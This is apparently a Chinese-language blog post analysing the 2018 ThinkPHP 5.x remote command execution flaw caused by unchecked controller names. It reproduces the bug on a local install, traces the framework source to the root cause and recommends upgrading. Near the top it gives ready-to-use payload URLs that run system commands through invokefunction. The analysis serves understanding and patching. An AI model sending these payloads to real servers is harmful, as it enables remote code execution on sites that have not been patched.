










# ThinkPHP5.x版本命令执行漏洞分析

## 概述

2018年12月9日，ThinkPHP5.*版本发布安全更新，本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞。



## 漏洞复现

下载官方版
1. http://www.thinkphp.cn/down/1260.html //官网下载ThinkPHP5.0.22完整版
2. PHP‐7.0.12‐NTS + Apache (phpstudy集成环境)

Payload:
`http://localhost/thinkphp5022/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

将thinkphp直接解压放进网站根目录，访问上述Payload触发漏洞，回显出操作人。



或者改成回显phpinfo()

`http://localhost/thinkphp5022/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()`



## 漏洞分析

观察payload，其格式类似如下：

`http://localhost/?s=[模块/控制器/操作?]参数1=值1&参数2=值2`

当我们输入URL的时候，ThinkPHP会从入口文件进入，并执行thinkphp目录下的启动文件`start.php`。

```
// 2. 执行应用
App::run()‐>send();
```

将会执行`thinkphp//library/think/App.php`的`run`函数，在执行过程中，会调用`thinkphp/libray/think/Route.php`下的`parseUrl`进行URL解析，而在`parseUrl`函数又同时调用`parseUrlPath`根据`/`分隔符进行路径分割。

`thinkphp/libray/think/Route.php`的`第1284-1302行`



经过`parseUrlPath`函数分割后，`$path={"index", "\think\app" ,"invokefunction"}`



所以`$result = ['type' => 'module', 'module' => {"index", "\think\app","invokefunction"}] `


接下来 `run` 将会继续调用` exec`函数进行调用分发。` $dispatch`参数为前面的路径分割结果。
`$data = self::exec($dispatch, $config);`


`exec`中将会调用`module`执行对应的模块操作



module 函数也正是官方修复的地方，观察官方注释可以知道这是一个执行模块方法的函数，首先其会根据我们 `$dispatch['module'] `数组获取模块名，控制器名，操作方法名，代码如下

```
/**
     * 执行模块
     * @access public
     * @param array $result  模块/控制器/操作
     * @param array $config  配置参数
     * @param bool  $convert 是否自动转换控制器和操作名
     * @return mixed
     * @throws HttpException
     */
    public static function module($result, $config, $convert = null)
    {
        if (is_string($result)) {
            $result = explode('/', $result);
        }

        $request = Request::instance();

        if ($config['app_multi_module']) {
            // 多模块部署
            $module    = strip_tags(strtolower($result[0] ?: $config['default_module']));
            $bind      = Route::getBind('module');
            $available = false;

            if ($bind) {
                // 绑定模块
                list($bindModule) = explode('/', $bind);

                if (empty($result[0])) {
                    $module    = $bindModule;
                    $available = true;
                } elseif ($module == $bindModule) {
                    $available = true;
                }
            } elseif (!in_array($module, $config['deny_module_list']) && is_dir(APP_PATH . $module)) {
                $available = true;
            }

            // 模块初始化
            if ($module && $available) {
                // 初始化模块
                $request->module($module);
                $config = self::init($module);

                // 模块请求缓存检查
                $request->cache(
                    $config['request_cache'],
                    $config['request_cache_expire'],
                    $config['request_cache_except']
                );
            } else {
                throw new HttpException(404, 'module not exists:' . $module);
            }
        } else {
            // 单一模块部署
            $module = '';
            $request->module($module);
        }

        // 设置默认过滤机制
        $request->filter($config['default_filter']);

        // 当前模块路径
        App::$modulePath = APP_PATH . ($module ? $module . DS : '');

        // 是否自动转换控制器和操作名
        $convert = is_bool($convert) ? $convert : $config['url_convert'];

        // 获取控制器名
        $controller = strip_tags($result[1] ?: $config['default_controller']);
        $controller = $convert ? strtolower($controller) : $controller;

        // 获取操作名
        $actionName = strip_tags($result[2] ?: $config['default_action']);
        if (!empty($config['action_convert'])) {
            $actionName = Loader::parseName($actionName, 1);
        } else {
            $actionName = $convert ? strtolower($actionName) : $actionName;
        }

        // 设置当前请求的控制器、操作
        $request->controller(Loader::parseName($controller, 1))->action($actionName);

        // 监听module_init
        Hook::listen('module_init', $request);

        try {
            $instance = Loader::controller(
                $controller,
                $config['url_controller_layer'],
                $config['controller_suffix'],
                $config['empty_controller']
            );
        } catch (ClassNotFoundException $e) {
            throw new HttpException(404, 'controller not exists:' . $e->getClass());
        }

        // 获取当前操作名
        $action = $actionName . $config['action_suffix'];

        $vars = [];
        if (is_callable([$instance, $action])) {
            // 执行操作方法
            $call = [$instance, $action];
            // 严格获取当前操作方法名
            $reflect    = new \ReflectionMethod($instance, $action);
            $methodName = $reflect->getName();
            $suffix     = $config['action_suffix'];
            $actionName = $suffix ? substr($methodName, 0, -strlen($suffix)) : $methodName;
            $request->action($actionName);

        } elseif (is_callable([$instance, '_empty'])) {
            // 空操作
            $call = [$instance, '_empty'];
            $vars = [$actionName];
        } else {
            // 操作不存在
            throw new HttpException(404, 'method not exists:' . get_class($instance) . '->' . $action . '()');
        }

        Hook::listen('action_begin', $call);

        return self::invokeMethod($call, $vars);
    }
```



然后会设置请求的控制器。

```
 // 设置当前请求的控制器、操作
        $request‐>controller(Loader::parseName($controller, 1))‐
>action($actionName);
```

将会调用 `thinkphp/library/think/Loader.php`中的controller函数，并返回调用类名。

```
public static function controller($name, $layer = 'controller',
$appendSuffix = false, $empty = '')
    {
        list($module, $class) = self::getModuleAndClass($name,
$layer, $appendSuffix);
        if (class_exists($class)) {
            return App::invokeClass($class);
        }
```
需要注意的是其中获取`getModuleAndClass`，解析模块和类名的方法，首先会判断是否控制器名是否存在 `\` 字符，存在的话，将会将其直接设置为类名。即此时类名为`\think\app`。而如果其为正常的类似index的正规控制器名的话，会调用`parseClass`拼接出类名来，类似 `app\index\controller\Index `。

```
protected static function getModuleAndClass($name, $layer,
$appendSuffix)
    {
        if (false !== strpos($name, '\\')) {
            $module = Request::instance()‐>module();
            $class = $name;
        } else {
            if (strpos($name, '/')) {
                list($module, $name) = explode('/', $name, 2);
            } else {
                $module = Request::instance()‐>module();
            }
            $class = self::parseClass($module, $layer, $name,
$appendSuffix);
        }
        return [$module, $class];
    }
```

回到`moudle`函数中，将会通过反射获取操作方法名，即`invokefunction`

```
if (is_callable([$instance, $action])) {
            // 执行操作方法
            $call = [$instance, $action];
            // 严格获取当前操作方法名
            $reflect = new \ReflectionMethod($instance, $action);
            $methodName = $reflect‐>getName();
            $suffix = $config['action_suffix'];
            $actionName = $suffix ? substr($methodName, 0, ‐
strlen($suffix)) : $methodName;
            $request‐>action($actionName);
        }
```

接着就会调用其具体的操作方法了

`return self::invokeMethod($call, $vars); //$call = {think\App ,"invokefunction"}`



然后 invokeMethod 函数通过反射执行`invokefunction`方法，`invokefunction`函数再通过反射执行`$function`参数，即我们payload中的的`call_user_func_array`，`$vars[]为call_user_func_array`的调用参数。即`payload中的vars[0]=system&vars[1][]=whoami`，从而`call_user_func_array`调用sytem命令执行，漏洞触发。

```
/**
     * 执行函数或者闭包方法 支持参数调用
     * @access public
     * @param string|array|\Closure $function 函数或者闭包
     * @param array $vars 变量
     * @return mixed
     */
    public static function invokeFunction($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);//反射
call_user_func_array
        $args = self::bindParams($reflect, $vars);//bindParams合
并多个参数到一个数组
        // 记录执行信息
        self::$debug && Log::record('[ RUN ] ' . $reflect‐
>__toString(), 'info');
        return $reflect‐>invokeArgs($args);//调用
    }
```



## 修复方案

1. 升级最新版本（推荐）
2. 查看GitHub上thinkPHP5的commit。


结合Thinkphp官方的描述，这次修复对控制器名进行了判断，判断是否符合正则（字母开头并且只包含字母数字下划线），只接受 `index`这种格式的字符作为控制器，否则将会返回错误。

## 总结

ThinkPHP5.*漏洞成因正如官方所说 "由于框架对控制器名没有进行足够的检测"。

## 参考文献

1. https://blog.thinkphp.cn/869075
2. https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815